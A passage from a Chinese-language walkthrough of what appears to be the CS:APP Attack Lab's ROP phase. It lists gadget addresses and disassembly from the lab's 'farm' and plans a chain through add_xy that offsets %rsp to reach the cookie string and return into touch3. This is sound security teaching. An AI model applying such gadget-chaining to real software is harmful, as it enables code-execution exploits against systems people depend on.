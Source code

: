 经过测试，**在farm中的所有字节中找不到可用的push指令**。

似乎要改变一下思路了。

如果我们能够**将%rsp的值进行一些加减运算**，那么通过偏移可以很方便地得到cookie字符串的地址。

可惜经过测试，**在farm中的所有字节中找不到直接可用的递增或者递减指令**。

但是我们可以注意到**有一个函数明显是用来进行加减运算的**，即*add_xy*。

分析该函数的汇编，该函数将%rdi和%rsi相加，然后将结果放到%rax中。

**我们去寻找所有与这三个寄存器相关的指令**(这是个非常煎熬的过程。。。)

可以找到以下几个相关的gadget(从gadget集合中筛选出来的，序号未更改)
```
<gadget2>->0x401aad
48 89 e0 90 c3
mov %rsp, %rax
nop
ret

<gadget4>->0x4019a2
48 89 c7 c3
mov %rax, %rdi
ret

<gadget3>->0x4019cc
58 90 c3
pop %rax
nop
ret

<gadget5>->0x4019dd
89 c2 90 c3
mov %eax, %edx
nop
ret

<gadget8>->0x401a34
89 d1 38 c9 c3
mov %edx, %ecx
cmp %cl, %cl
ret

<gadget7>->0x401a27
89 ce 38 c0 c3
mov %ecx, %esi
cmp %al, %al
ret
```

这样一来我们的任务就是组合这些gadget，使%rsp按照我们的想法进行偏移获取到cookie字符串的地址。然后通过ret跳转到touch3函数。

**想要利用add_xy，我们要以放入%rdi和%rsi的值为最终目标。**
